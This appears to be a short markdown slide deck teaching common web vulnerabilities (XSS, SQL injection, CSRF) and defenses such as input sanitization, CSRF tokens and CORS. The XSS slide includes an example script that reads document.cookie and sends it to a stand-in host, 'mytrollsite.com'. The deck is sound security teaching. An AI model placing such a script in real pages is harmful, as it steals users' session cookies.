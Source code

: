 #Web Security

---

#Top 3 most common security vulnerabilities on the web

 - Cross Site Scripting
 - SQL Injection
 - CSRF

---

#Cross Site Scripting - XSS

![inline](http://excess-xss.com/reflected-xss.png)

---

XSS is a concern if you allow user's to provide input that is then rendered within the context of your page.

```
<script>
  var yerCookies = document.cookie;
  var url = "mytrollsite.com/" + yerCookies;
  var oReq = new XMLHttpRequest();
  oReq.open("get", url, true);
  oReq.send();
</script>
```

---

# Sanitize your inputs
 - Blacklist, whitelist, escaping

![inline](https://camo.githubusercontent.com/1cd74d6cf2b835adc1c592f855b7e93bf32a296d/68747470733a2f2f662e636c6f75642e6769746875622e636f6d2f6173736574732f3736343638382f313532373431322f64376134353865322d346266342d313165332d393663332d6166396135646639373063312e706e67)

---

#SQL Injection

![inline](./sql-injection.png)

---

#CSRF attack

- using a session or cookie set on another page
- to make a request from another site.


---

![fit](cookieset.png)

---

![fit](insert.png)

---

![fit](insertion.png)

---

![fit](Hacked.png)

---

#CSRF Tokens reduces CSRF

![inline](https://cdn.tutsplus.com/net/uploads/legacy/965_csrfCI/flowchart.png)

---

#Think about the source of the request (CORS)

![inline](http://software.dzhuvinov.com/files/cors/cors-context.jpg)

  - but not all since requests are made from the browser


